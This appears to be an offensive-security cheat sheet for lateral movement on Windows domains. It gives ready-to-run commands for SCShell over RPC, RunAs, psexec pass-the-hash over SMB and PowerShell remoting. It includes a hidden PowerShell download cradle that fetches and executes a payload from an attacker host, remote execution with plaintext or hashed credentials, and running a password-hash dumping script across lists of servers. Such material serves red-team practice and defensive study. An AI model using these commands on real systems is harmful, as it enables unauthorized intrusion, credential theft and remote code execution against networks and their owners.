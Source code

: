 ### RPC

```bash
python scshell.py 'DOMAIN'/'USER'@192.168.1.11 -hashes :[...hash...] -service-name lfsvc

SCShell> C:\windows\system32\cmd.exe /c powershell.exe -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/payload.ps1')
```

### RunAs

```powershell
# CMD
runas /u:user powershell.exe

# PowerShell
$cred = New-Object System.Management.Automation.PSCredential('<HOSTNAME>\<USERNAME>', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
$computer = "PC01"

# Process.Start
[System.Diagnostics.Process]::Start("C:\Windows\System32\cmd.exe", "/c ping -n 1 10.10.13.37", $cred.Username, $cred.Password, $computer)

# Start-Process
Start-Process -FilePath "C:\Windows\System32\cmd.exe" -ArgumentList "/c ping -n 1 10.10.13.37" -Credential $cred

# Invoke-Command
Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred

$s = New-PSSession -ComputerName <HOSTNAME> -Credential $cred
Invoke-Command -ScriptBlock { whoami } -Session $s
```

### SMB 
```bash
psexec.py 'domain'/'user':'Passw0rd!'@192.168.11.1
rlwrap -cAr psexec.py -hashes :[... hash ...] 'domain'/'user'@192.168.11.1 powershell
```

### SPN-Jacking

### PSRemoting
Windows
```powershell
# PowerShell Remoting
$SecPassword = ConvertTo-SecureString 'VictimUserPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\targetuser', $SecPassword)

# Run a command remotely (can be used on multiple machines at once)
Invoke-Command -Credential $Cred -ComputerName dc.targetdomain.com -ScriptBlock {whoami;hostname;Get-Process -IncludeUserName}

#To many computers
Invoke-Command -Credential $cred -ComputerName (Get-Content ./listServers.txt)

#Execute scripts from files
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

#Execute locally loaded function on the remote machines
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```
